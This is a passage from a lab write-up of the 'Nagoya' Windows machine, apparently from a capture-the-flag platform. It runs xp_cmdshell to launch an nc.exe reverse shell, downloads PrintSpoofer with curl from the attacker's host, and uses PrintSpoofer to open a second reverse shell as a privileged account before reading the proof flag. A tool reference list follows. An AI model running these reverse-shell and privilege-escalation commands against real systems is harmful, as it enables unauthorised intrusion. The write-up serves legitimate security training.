SQL (NAGOYA-IND\Administrator  dbo@master)> xp_cmdshell "C:\Temp\nc.exe 192.168.45.240 12345 -e cmd.exe"
```

Back at our listener, we get a connection:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Advanced/Nagoya]
└─$ penelope -i tun0 -p 12345
[+] Listening for reverse shells on 192.168.45.240:12345 
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => NAGOYA 192.168.158.21 Microsoft_Windows_Server_2019_Standard_Evaluation-x64-based_PC 👤 nagoya-ind\svc_mssql 😍 Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/NAGOYA~192.168.158.21-Microsoft_Windows_Server_2019_Standard_Evaluation-x64-based_PC/2026_11_21-10_15_58-599-nagoya-ind\svc_mssql.log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
C:\Windows\system32>whoami
whoami
nagoya-ind\svc_mssql

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Windows\system32>cd C:\temp
cd C:\temp

C:\Temp>
```

### Get an Administrator shell

To escalate our privileges and get an Administrator shell we use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer).

```powershell
*Evil-WinRM* PS C:\temp> curl http://192.168.45.240/PrintSpoofer64.exe -o PrintSpoofer.exe
*Evil-WinRM* PS C:\temp> 
```

With PrintSpoofer, we trigger another reverse shell.

```bash
C:\Temp>.\PrintSpoofer.exe -c "nc.exe 192.168.45.240 12345 -e cmd.exe"
.\PrintSpoofer.exe -c "nc.exe 192.168.45.240 12345 -e cmd.exe"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

[+] [New Reverse Shell] => NAGOYA 192.168.158.21 Microsoft_Windows_Server_2019_Standard_Evaluation-x64-based_PC 👤 nagoya-ind\nagoya$ 😍 Session ID <2>
C:\Temp>
```

We detach and switch to the new shell.

```bash
C:\Temp>

[!] Session detached ⇲

(Penelope)─(Session [1])> sessions

➤  NAGOYA 192.168.158.21 Microsoft_Windows_Server_2019_Standard_Evaluation-x64-based_PC

    ID  | Shell    | User                 | Source                           
    [1] | Readline | nagoya-ind\svc_mssql | TCPListener(192.168.45.240:12345)
    <2> | Raw      | nagoya-ind\nagoya$   | TCPListener(192.168.45.240:12345)

(Penelope)─(Session [1])> sessions 2
[+] Added readline support...
[+] Interacting with session [2] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/NAGOYA~192.168.158.21-Microsoft_Windows_Server_2019_Standard_Evaluation-x64-based_PC/2026_11_21-10_22_33-934-nagoya-ind\nagoya$.log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
C:\Windows\system32>whoami
whoami
nagoya-ind\nagoya$

C:\Windows\system32>
```

### Get the root flag

Finally, we can get the root flag.

```bash
C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
d<REDACTED>3

C:\Users\Administrator\Desktop>
```

For additional information, please see the references below.

## References

- [awk - Linux manual page](https://man7.org/linux/man-pages/man1/awk.1p.html)
- [BloodHound - Docs](https://bloodhound.specterops.io/home)
- [BloodHound - GitHub](https://github.com/SpecterOps/BloodHound)
- [BloodHound - Homepage](https://specterops.io/open-source-tools/bloodhound-community-edition/)
- [BloodHound - Kali Tools](https://www.kali.org/tools/bloodhound/)
- [BloodHound - Query Library](https://queries.specterops.io/)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [Domain Name System - Wikipedia](https://en.wikipedia.org/wiki/Domain_Name_System)
- [dnSpy - GitHub](https://github.com/dnSpy/dnSpy)
- [Evil-WinRM - GitHub](https://github.com/Hackplayers/evil-winrm)
- [Evil-WinRM - Kali Tools](https://www.kali.org/tools/evil-winrm/)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [file - Linux manual page](https://man7.org/linux/man-pages/man1/file.1.html)
- [findstr - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)
- [GenericAll Permission - BloodHound Docs](https://bloodhound.specterops.io/resources/edges/generic-all)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [Hashcat - Homepage](https://hashcat.net/hashcat/)
- [Hashcat - Kali Tools](https://www.kali.org/tools/hashcat/)
- [Hashcat - Wiki](https://hashcat.net/wiki/)
- [html2text - GitHub](https://github.com/Alir3z4/html2text/)
- [html2text - Linux manual page](https://linux.die.net/man/1/html2text)
- [Impacket - GitHub](https://github.com/fortra/impacket)
- [Impacket - Homepage](https://www.coresecurity.com/core-labs/impacket)
- [Impacket - Kali Tools](https://www.kali.org/tools/impacket/)
- [Impacket-scripts - Kali Tools](https://www.kali.org/tools/impacket-scripts/)
- [Internet Information Services - Wikipedia](https://en.wikipedia.org/wiki/Internet_Information_Services)
- [ip - Linux manual page](https://man7.org/linux/man-pages/man8/ip.8.html)
- [kerberos - Linux manual page](https://linux.die.net/man/1/kerberos)
- [Kerberos (protocol) - Wikipedia](https://en.wikipedia.org/wiki/Kerberos_(protocol))
- [Kerbrute - GitHub](https://github.com/ropnop/kerbrute)
- [klist - Linux manual page](https://linux.die.net/man/1/klist)
- [krb5.conf - Linux manual page](https://linux.die.net/man/5/krb5.conf)
- [Lightweight Directory Access Protocol - Wikipedia](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol)
- [Ligolo-ng - Docs](https://docs.ligolo.ng/)
- [Ligolo-ng - GitHub](https://github.com/nicocha30/ligolo-ng)
- [ligolo-ng - Kali Linux](https://www.kali.org/tools/ligolo-ng/)
- [ligolo-ng-common-binaries - Kali Linux](https://www.kali.org/tools/ligolo-ng-common-binaries/)
- [Microsoft RPC - Wikipedia](https://en.wikipedia.org/wiki/Microsoft_RPC)
- [Microsoft SQL Server - Wikipedia](https://en.wikipedia.org/wiki/Microsoft_SQL_Server)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [nc.exe - GitHub](https://github.com/int0x33/nc.exe/)
- [net - Kali Tools](https://www.kali.org/tools/samba/#net)
- [net - Linux manual page](https://linux.die.net/man/8/net)
- [NetBIOS over TCP/IP - Wikipedia](https://en.wikipedia.org/wiki/NetBIOS_over_TCP/IP)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [NetExec - GitHub](https://github.com/Pennyw0rth/NetExec)
- [NetExec - Kali Tools](https://www.kali.org/tools/netexec/)
- [NetExec - Wiki](https://www.netexec.wiki)
- [netsh - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)
- [Netsh Command Reference - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc754516(v=ws.10))
- [netstat - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/netstat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [NTLM - Wikipedia](https://en.wikipedia.org/wiki/NTLM)
- [NTLM Hash Generator - Code Beautify](https://codebeautify.org/ntlm-hash-generator)
- [nxc-sweep - GitHub](https://github.com/corey-farley/nxc-sweep)
- [Penelope - GitHub](https://github.com/brightio/penelope)
- [Penelope - Kali Tools](https://www.kali.org/tools/penelope/)
- [PrintSpoofer - GitHub](https://github.com/itm4n/PrintSpoofer)
- [Remote Desktop Protocol - Wikipedia](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol)
- [rockyou.txt wordlist - GitHub](https://github.com/zacheller/rockyou)
- [sed - Linux manual page](https://man7.org/linux/man-pages/man1/sed.1.html)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [smbclient - Kali Tools](https://www.kali.org/tools/samba/#smbclient)
- [smbclient - Linux manual page](https://linux.die.net/man/1/smbclient)
- [Smbmap - GitHub](https://github.com/ShawnDEvans/smbmap)
- [Smbmap - Kali Tools](https://www.kali.org/tools/smbmap/)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tail - Linux manual page](https://man7.org/linux/man-pages/man1/tail.1.html)
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [Username Anarchy - GitHub](https://github.com/urbanadventurer/username-anarchy)
- [vi - Linux manual page](https://man7.org/linux/man-pages/man1/vi.1p.html)
- [wc - Linux manual page](https://man7.org/linux/man-pages/man1/wc.1.html)
- [What Is the Global Catalog? - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc728188(v=ws.10))
- [where - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/where)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
- [Windows Remote Management - Wikipedia](https://en.wikipedia.org/wiki/Windows_Remote_Management)
